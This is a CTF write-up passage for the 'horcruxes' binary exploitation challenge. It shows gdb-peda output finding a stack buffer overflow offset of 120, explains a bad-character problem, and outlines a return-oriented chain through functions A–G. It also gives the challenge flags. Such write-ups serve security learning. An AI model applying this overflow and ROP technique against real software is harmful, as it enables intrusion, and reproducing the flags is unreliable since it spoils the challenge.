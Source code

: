 ```Pl3as_DonT_Miss_youR_GrouP_Perm!!```
  * A,B,C,D,E,F,G
    ```c
    printf("You found \"Tom Riddle's Diary\" (EXP +%d)\n", a);
    printf("You found \"Marvolo Gaunt's Ring\" (EXP +%d)\n", b);
    printf("You found \"Helga Hufflepuff's Cup\" (EXP +%d)\n", c);
    printf("You found \"Salazar Slytherin's Locket\" (EXP +%d)\n", d);
    printf("You found \"Rowena Ravenclaw's Diadem\" (EXP +%d)\n", e);
    printf("You found \"Nagini the Snake\" (EXP +%d)\n", f);
    printf("You found \"Harry Potter\" (EXP +%d)\n", g);
    ``` 
    * These all have the same pattern. it'll show the value of each variable
### [Exploit](horcruxes/exp.py)
* Find out the offset of buffer overflow
  ```c
  gdb-peda$ pattc 150
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

  gdb-peda$ info frame
  Stack level 0, frame at 0xffffdbd0:
  eip = 0x80a00ee in ropme; saved eip = 0x3941416a
  called by frame at 0xffffdbd4
  Arglist at 0xffffdbc8, args:
  Locals at 0xffffdbc8, Previous frame's sp is 0xffffdbd0
  Saved registers:
    ebp at 0xffffdbc8, eip at 0xffffdbcc
  
  gdb-peda$ pattern offset 0x3941416a
  960577898 found at offset: 120
  ```
  * offset = 120
* Return address set to the address of ```fd = open("flag", 0);```, 0x80A010B
  * There's an issue of this address, it contains [bad character](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/16/input/), \x0A, which will be considered as the end of string by gets
  * This strategy won't work
* Return address set to function A and then followed by function B,C,D,E,F,G and finally go back to ropme again. Since we've got all the value of variables, we can calculate the sum by ourself and bypass the check second time
### Flag
```Magic_spell_1s_4vad4_K3daVr4!```